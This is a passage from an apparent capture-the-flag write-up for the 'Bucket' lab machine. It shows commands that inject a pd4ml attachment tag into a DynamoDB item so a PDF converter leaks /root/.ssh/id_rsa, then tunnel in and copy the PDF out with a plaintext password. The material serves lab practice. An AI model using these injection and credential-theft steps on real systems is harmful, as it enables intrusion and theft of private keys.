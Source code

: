 **Second**, put `Ransomware` item , [template](awsApiTmpl/putItem-tmpl.js) for webshell
```bash
aws dynamodb put-item \
--table-name alerts  \
--item \
    '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}' \
    --endpoint-url=http://s3.bucket.htb
```

*specify `pd4ml:attachment` function as item `Ransomware` data so when pd4cmd convert html file into pdf it also attech that file i specified*

**Third**, create tunnel on port 8000 with ssh
```bash
ssh -L 8000:127.0.0.1:8000 roy@bucket.htb
```

**Fourth**, send a post request to `127.0.0.1:8000`

`curl -X POST -d "action=get_alerts" http://127.0.0.1:8000/ -v`

*as soon as request send successfully `result.pdf` file created*

**Note**, `result.pdf` file deletes immediately after created in less then `~10sec` and created table

*to tackle this problem i use sshpass with scp and copy `result.pdf` file in my local machine as soon as it created*

`sshpass -p "n2vM-<_K_Q:.Aa2" scp roy@10.10.10.212:/var/www/bucket-app/files/result.pdf result.pdf`